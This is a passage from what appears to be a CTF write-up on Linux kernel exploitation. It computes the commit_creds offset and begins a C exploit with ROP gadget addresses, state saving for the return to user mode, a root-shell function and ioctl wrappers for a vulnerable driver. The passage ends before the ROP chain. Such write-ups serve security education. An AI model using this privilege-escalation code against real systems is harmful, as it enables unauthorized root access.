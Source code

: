 Then, we need to calculate the offset. Using tools like `checksec`, we can see that PIE is at `0xffffffff81000000`, and we can also find the address of `commit_creds` under this base.

```python
e = ELF('./vmlinux.unstripped')
hex(e.sym['commit_creds'])
```

Thus, the offset is calculated as follows:

```c title=exp
offset = commit_creds - 0x9c8e0 - 0xffffffff81000000;
```

At this point, using the stack overflow, we can modify the return address.

```c title=exp
// musl-gcc -static -masm=intel -Wno-error=int-conversion -o exp exp.c  // makes compiler happy
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>


#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define  IRETQ 0xffffffff81050ac2

#pragma clang diagnostic ignored "-Wconversion"  // makes me happy

size_t user_cs, user_ss, user_rflags, user_sp;
size_t prepare_kernel_cred, commit_creds;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void shell() {
    if (!getuid()) {
        system("/bin/sh");
    } else {
        puts("\033[31m\033[1m[-] Exploit failed.\033[0m");
        exit(0);
    }
}

void core_read(int fd, char* buf) {
    ioctl(fd, 0x6677889B, buf);
}

void core_set_offset(int fd, size_t offset) {
    ioctl(fd, 0x6677889C, offset);
}

void core_copy(int fd, size_t nbytes) {
    ioctl(fd, 0x6677889A, nbytes);
}
```